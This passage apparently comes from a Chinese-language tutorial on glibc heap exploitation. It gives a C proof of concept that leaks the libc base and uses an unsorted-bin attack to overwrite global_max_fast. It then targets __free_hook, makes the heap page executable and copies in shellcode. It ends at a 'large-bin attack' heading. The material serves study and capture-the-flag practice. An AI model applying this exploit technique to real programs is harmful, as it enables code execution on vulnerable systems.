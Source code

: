 ```C
	ul *p, *p1, *p2, *p3, *p4;

	setbufs();

	p1 = malloc(0x100);
	p2 = malloc(0x20);

	free(p1);
	libc_base = *(ul*)p1;
	libc_base -= 0x3c4b78;
	global_max_fast = libc_base + 0x3c67f8;
	free(p2);
	printf("libc_base is :%lx\n", libc_base);
	printf("&(global_max_fast) is :%lx\n", global_max_fast);
	printf("global_max_fast is :%lx\n", *(ul*)global_max_fast);

	p1 = malloc(0x100);
	p2 = malloc(0x20);
	p3 = malloc(offset2size(__free_hook-main_arena));
	malloc(0x20);

	free(p1);
	p = (ul*)p1;
	//*(p+1) = (ul)&libc_base - sizeof(ul*)*2;
	//malloc(0x100);
	//printf("after unsorted-bin attack is :%lx\n", libc_base);

	*(p+1) = global_max_fast - sizeof(ul*)*2;
	malloc(0x100);
	printf("after unsorted-bin attack\n");
	printf("global_max_fast is :%lx\n", *(ul*)global_max_fast);

	free(p3);
	ul page = ((ul)p3-sizeof(ul*)*2)&(~0xFFF);
	mprotect((void*)page, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC);
	memcpy((void*)((ul)p3-sizeof(ul*)*2), shellcode, sizeof(shellcode));

	// do not malloc
	free(p2);


	return 0;
}
```

&emsp;&emsp;<font size=2>就先这些吧，涉及`_IO_FILE`的下次再整合成另外一篇文章发，因为`_IO_FILE`的内容也挺多的，如果把所有利用技巧都放在一篇文章可能太庞大了，所以分为基础利用和进阶吧，那就这样了，下一章待续。</font></br>



---

## large-bin attack
